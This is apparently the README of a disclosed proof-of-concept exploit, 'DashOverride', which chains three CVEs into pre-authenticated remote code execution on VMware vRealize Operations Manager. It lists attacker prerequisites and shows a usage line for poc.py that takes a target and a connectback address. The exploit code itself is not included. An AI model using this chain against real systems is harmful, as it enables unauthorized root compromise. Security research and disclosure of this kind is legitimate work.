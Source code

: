 # DashOverride

## What

This is a pre-authenticated RCE exploit for VMware vRealize Operations Manager (vROPS) that impacts versions <= 8.6.3.19682901.

## Author

Steven Seeley of Qihoo 360 Vulnerability Research Insititute

## Tested

The exploit was tested against 8.6.3.19682901 using the file `vRealize-Operations-Manager-Appliance-8.6.3.19682901_OVF10.ova` (SHA1: 4637b6385db4fbee6b1150605087197f8d03ba00) but it has known to work against other older versions as well.

## Notes

- This exploit chains three vulnerabilities that have been [patched](TODO). More details can be found in the [blog post](https://srcincite.io/blog/2022/08/09/from-shared-dash-to-root-bash-pre-authenticated-rce-in-vmware-vrealize-operations-manager.html):

  - [CVE-2022-31675 - MainPortalFilter ui Authentication Bypass](https://srcincite.io/advisories/src-2022-0015/)
  - [CVE-2022-31674 - SupportLogAction Information Disclosure](https://srcincite.io/advisories/src-2022-0016/)
  - [CVE-2022-31672 - generateSupportBundle VCOPS_BASE Privilege Escalation](https://srcincite.io/advisories/src-2022-0017/)

- This exploit will require the attacker to supply:

  - A valid dashboardlink token that will be used to bypass authentication.
  - Their own SMTP server settings, this is to ensure that exploitation works.
  - A valid Pak file that is signed by VMWare such as `APUAT-8.5.0.18176777.pak`.

- There is alot of moving parts to this exploit, hopefully I engineered it right so it works on the first shot.
- The exploit takes on average ~1m34.142s to complete (tested 5 times), I tried to engineer this to be faster, but it's within an allocated time for a competition ;->

## Run

```
researcher@mars:~$ ./poc.py 
(+) usage: ./poc.py <target> <connectback> <dashboardlink_token>
(+) eg: ./poc.py 192.168.2.196 192.168.2.234 uuncuybis9
```

## Example

![Running DashOverride](/poc.gif)
